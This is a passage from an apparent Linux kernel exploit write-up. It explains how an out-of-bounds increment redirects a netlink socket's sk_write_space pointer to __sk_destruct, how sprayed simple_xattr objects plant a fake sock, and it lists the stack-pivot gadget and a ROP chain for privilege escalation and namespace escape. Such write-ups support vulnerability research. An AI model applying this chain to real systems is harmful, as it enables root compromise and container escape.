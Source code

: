 If none of the sprayed `netlink_socks`s returns an error, we know that the OOB increment did not hit. Since whatever memory it did increment didn't crash the kernel, we can try again.

## ROP Chain

After being incremented, `sk.sk_write_space` points to `__sk_destruct()`. It can be called via `sk_setsockopt()` using the syscall `setsockopt(sockfd, SOL_SOCKET, SO_SNDBUF,  optval, optlen)`.
`__sk_destruct()` may be scheduled with `call_rcu()`, so it takes an `rcu_head *head` argument and uses `container_of(head, struct sock, sk_rcu)` to get a `sock` pointer:

```
static void __sk_destruct(struct rcu_head *head)
{
	struct sock *sk = container_of(head, struct sock, sk_rcu);
	struct sk_filter *filter;

	if (sk->sk_destruct)
		sk->sk_destruct(sk);

    /* ... */
}
```


When we call `__sk_destruct()` through `sk.sk_write_space`, `head` will be a pointer to base of the victim `netlink_sock`. Then `container_of()` returns a pointer to the middle of the previous slot, which used to contain the vulnerable `values` array.

We spray `simple_xattr`s to fill this slot with a fake `sock` containing a ROP chain.  `__sk_destruct` will call the `sk_destruct` function pointer of the fake `sock`, which we set to the address of a gadget that pivots to the ROP chain at the start of the `sock`, whose address is contained in `rbp`:

```
mov rsp, rbp ; pop rbp ; jmp __x86_return_thunk
```

The ROP chain performs privilege escalation and namespace escape then ends with a [telefork](https://blog.kylebot.net/2022/10/16/CVE-2022-1786/index.html "https://blog.kylebot.net/2022/10/16/CVE-2022-1786/index.html"):

```
0
pop rdi ; jmp __x86_return_thunk
0
prepare_kernel_cred()
mov rdi, rax ; pop rbx ; jmp __x86_return_thunk
0
commit_creds()
pop rdi ; jmp __x86_return_thunk
1
find_task_by_vpid()
pop rsi ; jmp __x86_return_thunk
init_nsproxy
mov rdi, rax ; pop rbx ; jmp __x86_return_thunk
0
switch_task_namespaces()
do_sys_vfork()
msleep()
```